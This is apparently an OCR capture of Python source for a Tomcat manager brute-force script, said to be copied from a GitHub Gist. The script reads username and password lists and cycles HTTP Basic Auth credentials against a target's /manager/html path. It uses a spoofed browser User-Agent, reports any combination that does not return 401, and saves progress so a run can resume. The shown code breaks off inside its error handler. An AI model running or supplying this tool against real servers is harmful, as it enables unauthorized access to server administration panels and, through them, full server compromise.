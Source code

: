 The source code for the file tomcat.py which I copied from the Github Gist.
```python
"""
    Tomcat bruteforce
    Author: @itsecurityco
"""

import os
import sys
import getopt
import base64
import requests
from time import sleep

def usage():
    print "## Usage ##"
    print "tomcat.py --host 127.0.0.1 --port <8080> --path </manager/html> --usr path_file --pwd path_file"

def info(host, port, path, usr_path, pwd_path):
    print "# Target: http://%s:%d%s" % (host, port, path)
    print "# Usernames: %s" % usr_path
    print "# Passwords: %s" % pwd_path
    raw_input("# Press any key to start ...")

def log(log_file):
    if os.path.isfile(log_file):
        handle = open(log_file, "r")
        session = handle.read().strip().split("::::::")
        handle.close()
        os.remove(log_file)
        return session
    else:
        return False

def bruteforce(host, port, path, usr_path, pwd_path, log_file):
    usernames = open(usr_path, 'r').read().splitlines()
    passwords = open(pwd_path, 'r').read().splitlines()
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Cache-Control": "max-age=0"}
    session = log(log_file)
    creds = {}

    for pwd in passwords:
        for usr in usernames:
            if session != False:
                if session[0] == usr and session[1] == pwd:
                    print "# Reading %s file from '%s:%s' " % (log_file, usr, pwd)
                    session = False
                    sleep(5)
                else:
                    continue

            headers["Authorization"] = "Basic %s" % base64.b64encode("%s:%s" % (usr, pwd))
            print "[*] Trying '%s:%s' ..." % (usr, pwd)
            try:
                res = requests.get("http://%s:%d%s" % (host, port, path), headers=headers)
                if res.status_code != 401:
                    print "[!] Credentials found: %s:%s" % (usr, pwd)
                    creds[usr] = pwd    
            except:
                handle = open(log_file, "w")
                handle.write("%s::::::%s" % (usr, pwd))
```